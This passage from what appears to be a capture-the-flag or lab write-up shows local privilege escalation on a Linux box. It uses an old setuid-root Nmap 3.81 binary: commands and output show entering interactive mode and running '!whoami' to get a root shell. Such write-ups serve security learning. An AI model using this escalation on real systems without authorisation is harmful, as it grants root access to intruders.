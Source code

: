 > /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
> /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
> /usr/lib/pt_chown
> ```

I immediately noticed `/usr/local/bin/nmap`. Let's see what version of Nmap it is.

#### Checking Nmap version: 

Command: 

> ```shell 
> nmap --version
> ```

Output: 

> ```shell
> $ nmap --version
> nmap --version
>
> nmap version 3.81 ( http://www.insecure.org/nmap/ )
> ```

As we can see, the Nmap version is **3.81**.

#### Enumeration:

After a bit of research, I found out: 

[LINK](https://pentestlab.blog/category/privilege-escalation/) as we can read at the link above, this is an older Nmap version. Versions from 2.02 to 5.21 had the so-called. The interactive mode allowed us to execute commands. In addition, checking `SETUID` will enable us to run commands as root. 

> ```shell
> $ ls -l /usr/local/bin/nmap
> ls -l /usr/local/bin/nmap
> -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
> ```

#### Starting Nmap in the interactive mode: 

Command:

> ```shell
> nmap --interactive
> ```

Output: 

> ```shell
> $ nmap --interactive
> nmap --interactive
>
> Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
> Welcome to Interactive Mode -- press h <enter> for help
> nmap> !whoami
> !whoami
> root
> waiting to reap child : No child processes
> ```
